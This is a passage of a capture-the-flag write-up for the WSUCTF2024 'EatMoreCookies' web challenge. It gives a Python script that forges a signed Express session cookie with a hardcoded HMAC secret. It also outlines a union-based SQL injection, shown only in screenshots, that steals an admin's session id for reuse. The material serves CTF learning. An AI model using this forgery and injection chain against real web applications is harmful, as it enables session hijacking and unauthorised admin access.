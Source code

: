Unfortunately, this isn't all that is needed to sign the cookie, but it is a good start.
You also need to url encode special characters, or else express won't accept it, and you also need to get rid
of trailing "=" signs after you base64 encode the text, here is an updated script that will sign the cookies
written in Python:

```
import hashlib
import hmac
import base64
import urllib.parse

def make_cookie():
    session_id = "<Your session id here>"
    data = session_id.encode('utf-8')
    secret_key = b"WayneStateUniversity"  # Ensure it's in bytes
    
    hmac_obj = hmac.new(secret_key, data, hashlib.sha256)
    hmac_digest = hmac_obj.digest()
    digest_base64 = base64.b64encode(hmac_digest).decode('utf-8').strip()  # Convert digest to base64 string
    
    cookie_value = session_id + '.' + digest_base64

    cookie_value = cookie_value.strip().split("=")[0]
    
    encoded_cookie_value = urllib.parse.quote(cookie_value, safe='')

    print(encoded_cookie_value)

make_cookie()
```

Cool. Now after we print this cookie out, all we have to do is go to our "storage" in the browser, then replace our userCookie with the one that this generates.

#Final Solution

Lets go through all of the steps:

register/login and visit the home page:

![EatMoreCookies3](https://github.com/Programmer231/WSUCTF2024/assets/51927329/11284d52-820d-46e1-9a8c-ccbbad4119ba)

Use a union based sql injection to get the session_id of a user that has the "isAdmin" attribute set to true: 
(Remember the session_id is located under cookie_flavor due to this sql injection)

![EatMoreCookies3(2)](https://github.com/Programmer231/WSUCTF2024/assets/51927329/b1929f1c-de69-48b6-8a94-7a97f8cb0b95)

copy the session_id into our script and run it:

![EatMoreCookies3(3)](https://github.com/Programmer231/WSUCTF2024/assets/51927329/3d20d1f3-1598-4f55-a84a-8735d6eba4d1)
